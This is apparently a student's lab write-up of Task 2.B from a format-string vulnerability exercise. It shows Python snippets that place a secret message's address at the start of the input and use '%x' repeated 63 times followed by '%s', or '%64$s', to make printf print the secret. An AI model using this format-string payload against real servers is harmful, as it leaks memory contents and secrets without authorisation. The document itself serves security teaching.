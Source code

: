 
### Task 2.B

In this step, we must print the content of a string (secret message) that is located in an address given in the server printout.

<figure align="center">
  <img src="/images/week6/task2B_1.png" alt="my alt text"/>
  <figcaption>Figure 19. Secret message's address </figcaption>
</figure>

As we know how to access the first four bytes of our input [Task 2.A](#task2.a), we can use this to access the content of the string.

And, as it was said before in [Task1](#task1), when given a `%s` specifier, `printf()` will interpret the content in the stack as a pointer to a string.

Having these points in consideration, we can set the first 4 bytes of the input as the address of the secret message, forward the function pointer (using `%x` 63 times) and then use `%s`. By doing this, the function will read the address of the secret message as a string pointer and print it.


```python
secret_message_add = 0x080b4008

content[0:4] = (secret_message_add).to_bytes(4,byteorder="little")
fmt = b"%x" * 63 + b"%s"
content[4:4+len(fmt)] = fmt
```

Or

```python
secret_message_add = 0x080b4008

content[0:4] = (secret_message_add).to_bytes(4,byteorder="little")
fmt = b"%64$s"
content[4:4+len(fmt)] = fmt

```

<figure align="center">
  <img src="/images/week6/task2B_2.png" alt="my alt text"/>
  <figcaption>Figure 20. Printing secret message </figcaption>
</figure>

